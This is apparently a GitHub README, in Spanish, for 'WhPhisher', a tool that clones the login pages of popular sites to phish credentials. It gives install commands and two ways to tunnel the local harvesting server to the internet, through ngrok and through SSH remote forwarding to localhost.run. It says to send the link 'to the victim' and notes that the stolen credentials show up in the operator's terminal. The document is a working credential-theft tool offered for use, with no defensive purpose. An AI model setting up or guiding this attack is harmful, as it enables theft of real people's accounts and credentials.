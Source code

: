 # WhPhisher

La mejor herramienta para hacer phishing con las páginas más famosas actualizadas.


# Probado en:

Termux, Kali Linux y debian


# Pasos

Para qué hayan menos probabilidades de que falle esta herramienta, se aconseja instalar la última versión de Termux, y Termux API.


# -- Como instalar --

`pkg install bash`

`pkg install git`

`git clone https://github.com/WhBeatZ/WhPhisher.git`

`cd WhPhisher`

`chmod +x *`

`bash requisitoswh.sh`

Esperar a que se instalen y automaticamente se inicia WhPhisher :D


[![Virtual-Box-VM-Dib-Vpuj-JG9.png](https://i.postimg.cc/K86wfbyL/Virtual-Box-VM-Dib-Vpuj-JG9.png)](https://postimg.cc/XrgsNTq7)

Elegir la página y esperar a que inicie el túneling.

[![Virtual-Box-VM-pqnlsb1ey-B.png](https://i.postimg.cc/gJJMyjfj/Virtual-Box-VM-pqnlsb1ey-B.png)](https://postimg.cc/mcvNBLZW)

# Solucion si no se genera el link o no funciona (2 soluciones)

# - - - Solucion 1 - - -


`Abrir nueva sesion`

`cd NgrokWh`

`chmod +x ngrokwh.sh`

`./ngrokwh.sh`

`y`

`ngrok http 8080`

Compartir el link que nos generó a la víctima :D

Ahora volvemos a la sesion principal, y si alguien puso sus datos, nos saldrán ahí :D 

-Imagenes de demstración:

[![Screenshot-20220116-091839.png](https://i.postimg.cc/HW92dXc7/Screenshot-20220116-091839.png)](https://postimg.cc/3WWpZyZK)


[![Screenshot-20220116-091856.png](https://i.postimg.cc/kGKQ8yVm/Screenshot-20220116-091856.png)](https://postimg.cc/V0s0PnBG)


[![Screenshot-20220116-091939.png](https://i.postimg.cc/KvKRJy2v/Screenshot-20220116-091939.png)](https://postimg.cc/tYjq4wJL)




# - - - Solucion 2 - - -

Pasos:

`Abrimos nueva sesión`

`cd`

`pkg install openssh -y`

`ssh -R 80:localhost:8080 nokey@localhost.run`

Compartir el link que se generó :D

# Como debería de quedar
- Lo verde tapa información personal 
- La flecha amarilla apunta al link que hay que compartir

[![Pics-Art-12-28-12-04-12.jpg](https://i.postimg.cc/Dw0djMxM/Pics-Art-12-28-12-04-12.jpg)](https://postimg.cc/yDqZWv4m)

# Resultado

- El link que le enviaste a la victima: 

[![chrome-NQpwa-Yi-Wxc.png](https://i.postimg.cc/mrxzN5JH/chrome-NQpwa-Yi-Wxc.png)](https://postimg.cc/k2cg7fnJ)

Cuando la víctima pone sus credenciales, nos llegan en la terminal:

[![Virtual-Box-VM-t1m8-G0-J0-MQ.png](https://i.postimg.cc/wjj0Y7jV/Virtual-Box-VM-t1m8-G0-J0-MQ.png)](https://postimg.cc/4mjzz4t7)


